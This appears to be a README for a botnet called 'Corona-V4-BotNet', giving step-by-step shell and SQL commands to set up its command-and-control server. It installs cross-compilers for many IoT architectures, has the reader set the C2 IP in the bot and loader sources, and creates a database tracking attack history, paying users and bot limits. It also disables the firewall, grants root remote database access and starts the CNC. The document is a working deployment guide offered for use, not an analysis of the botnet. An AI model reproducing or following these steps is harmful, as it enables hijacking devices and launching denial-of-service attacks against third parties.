 # Corona-V4-BotNet
// Copy paste this code and put it all on your terminal all at once:

 yum update -y
 
 yum install epel-release -y
 
 yum groupinstall "Development Tools" -y
 
 yum install gmp-devel -y
 
 ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
 
 yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
 

mkdir /etc/xcompile
cd /etc/xcompile 
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2

tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l

cd /tmp
wget https://dl.google.com/go/go1.9.4.linux-amd64.tar.gz -q
tar -xzf go1.9.4.linux-amd64.tar.gz
mv go /usr/local
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
go version
go env
cd ~/

// Now after that we have to setup the bot.
// Change the other ips with your server IP.

 CHANGE IP(s) IN /bot/includes.h -> For example your server ip is 127.0.0.1 the format should be (127,0,0,1) replace the . with , 
 CHANGE IP(s) IN /scanListen.go
 CHANGE IP(s) IN /dlr/main.c -> For example your server ip is 127.0.0.1 the format should be (127,0,0,1) replace the . with , 
 CHANGE IP(s) IN /loader/src/headers/config.h


// We will setup the database, run these commands on your terminal:

service mysqld start
mysql_secure_installation

// Now Login with your mysql pass by running this command:

mysql -u root -p

// Now we will add the database, copy and paste this on your terminal:

use mysql
GRANT ALL ON *.* to root@'%' IDENTIFIED BY 'YOURMYSQLPASSWORDHERE';
FLUSH PRIVILEGES;

CREATE DATABASE HoHo;
use HoHo;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'USERNAME', 'PASSWORD', 0, 0, 0, 0, -1, 1, 30, '');
exit;

                                 ^^^^^^^^    ^^^^^^^^
//                      PUT YOUR USERNAME AND PASSWORD HERE
// Now your database is complete, we will restart and disable services:

service iptables stop 
service httpd restart  
service mysqld restart

// Alright, we have to compile the bot and screen the cnc server by doing this:

cd ~/
chmod 0777 * -R
sh build.sh

nano /usr/include/bits/typesizes.h
scroll down and edit the 1024 to 999999
THEN SAVE IT 
ulimit -n999999; ulimit -u999999; ulimit -e999999

screen ./cnc
